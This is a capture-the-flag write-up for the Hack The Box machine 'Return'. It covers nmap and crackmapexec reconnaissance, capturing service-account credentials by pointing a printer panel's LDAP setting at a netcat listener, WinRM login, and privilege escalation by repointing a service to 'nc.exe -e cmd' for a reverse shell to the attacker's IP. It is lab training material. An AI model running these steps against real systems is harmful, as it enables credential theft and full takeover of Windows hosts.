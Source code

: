 # HTB - Return

**IP Address:** `10.10.11.108`  
**OS:** Windows Server 2019  
**Difficulty:** Medium  
**Tags:** #SMB, #WinRM, #WebPanel, #LDAPInjection, #ServiceAbuse, #ReverseShell

---

## 1. Initial Recon

### 1.1 Ping Test

✅ Host is up

### 1.2 Nmap Scanning

```bash
nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664-49696 10.10.11.108 -oN targeted
```

Found typical AD ports and open WinRM port (`5985`).

---

## 2. SMB Info

```bash
crackmapexec smb 10.10.11.108
```

Revealed:

- OS: Windows Server 2019 Build 17763
- Hostname: `PRINTER`
- Domain: `return.local`

Anonymous SMB access failed — credentials required.

---

## 3. Web Panel & Credential Leak

Accessed `http://10.10.11.108` in browser.

Settings panel allowed configuring an LDAP server.

Set our IP in the panel and launched a listener:

```bash
nc -nlvp 389
```

Triggered upload → intercepted request containing credentials:

- **User**: `svc-printer`  
- **Password**: `1edFg43012!!`

---

## 4. WinRM Access

Verified credentials:

```bash
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

✅ WinRM access confirmed

Logged in:

```bash
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

🏁 **User flag obtained**

---

## 5. Privilege Escalation

Checked privileges:

```bash
whoami /priv
```

Checked group:

```bash
net user svc-printer
```

Belongs to **Remote Management Users** — can manage services.

Listed services:

```bash
services
```

Uploaded `nc.exe` to victim's desktop via Evil-WinRM.

---

## 6. Modifying an Existing Service

Identified editable service: `VMTools`

Modified its binary path:

```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.14 443"
```

Started listener:

```bash
nc -nlvp 443
```

Restarted service:

```bash
sc.exe stop VMTools
sc.exe start VMTools
```

✅ Reverse shell received  
🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
